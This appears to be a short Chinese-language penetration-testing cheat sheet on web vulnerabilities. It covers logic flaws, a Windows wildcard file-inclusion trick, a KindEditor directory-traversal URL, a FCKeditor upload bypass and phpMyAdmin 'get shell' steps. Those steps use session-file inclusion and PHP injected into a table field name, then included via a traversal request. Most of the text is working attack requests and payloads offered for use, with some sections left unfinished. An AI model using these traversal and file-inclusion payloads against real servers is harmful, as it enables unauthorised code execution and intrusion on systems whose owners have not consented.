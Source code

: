 ##  各种漏洞

### 逻辑漏洞
![任意用户注册](4%20各种漏洞/2018-02-06-13-27-00.png)
![任意支付密码修改](4%20各种漏洞/2018-02-06-13-29-30.png)




## win下的通配符
`http://localhost:9000/upload/self_include.php?c=../tmp/php<<`  
`<<`相当于*

## kindeditor 
目录遍历: `/kindeditor/php/file_manager_json.php?path=../../../../tmp/`

4.1.7：泄漏路径问题，漏洞根源位于/php/file_manager_json.php。

## FCKeditor
截断，改文件名，突破目录上传  
Todo:
https://blog.csdn.net/lizhengnanhua/article/details/38451737
## eWebEditor 2.8 5.5


## phpmyadmin get shell
### 本地session包含
1. root登录，执行 `select '<?php phpinfo();exit;?>'`
2. 找到phpmyadmin cookie，`/index.php?target=db_sql.php%253f/../../var/lib/php/sessions/<you cookie>`

### 写入sql文件getishell
1. test数据库下新建表，字段名`<?php phpinfo()?>`
2. 查看sql文件路径`show variables like '%datadir%'`
3. getshll `/index.php?target=db_sql.php%253f/../../var/lib/mysql/test/hy.frm`